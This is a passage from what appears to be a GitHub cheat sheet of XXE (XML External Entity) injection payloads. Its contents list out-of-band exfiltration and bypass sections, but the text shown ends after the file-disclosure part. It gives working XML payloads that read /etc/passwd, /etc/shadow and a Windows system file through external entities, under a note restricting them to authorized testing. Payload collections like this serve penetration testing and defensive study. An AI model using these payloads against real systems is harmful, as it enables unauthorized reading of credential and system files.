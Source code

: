 # XXE (XML External Entity Injection) Payload Cheat Sheet

This cheat sheet includes payloads and techniques to test for XXE vulnerabilities, which occur when XML input containing a reference to an external entity is parsed. **Note:** These payloads are strictly for educational and authorized testing purposes only.

---

## Contents

- [Basic XXE Payloads](#basic-xxe-payloads)
- [File Disclosure XXE Payloads](#file-disclosure-xxe-payloads)
- [Out-of-Band (OOB) XXE Payloads](#out-of-band-oob-xxe-payloads)
- [Exfiltrating Data via XXE](#exfiltrating-data-via-xxe)
- [XXE with Parameter Entities](#xxe-with-parameter-entities)
- [XXE Blind Injection Techniques](#xxe-blind-injection-techniques)
- [Bypassing XXE Protections](#bypassing-xxe-protections)
- [Advanced XXE Techniques](#advanced-xxe-techniques)

---

## Basic XXE Payloads

Basic XXE payloads leverage external entities to retrieve content of internal files, causing the application to disclose sensitive data.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>
```

---

## File Disclosure XXE Payloads

File disclosure payloads use entity references to include sensitive files within the XML structure.

### Linux Example

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/shadow">]>
<root>&xxe;</root>
```

### Windows Example

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///C:/Windows/system.ini">]>
<root>&xxe;</root>
```
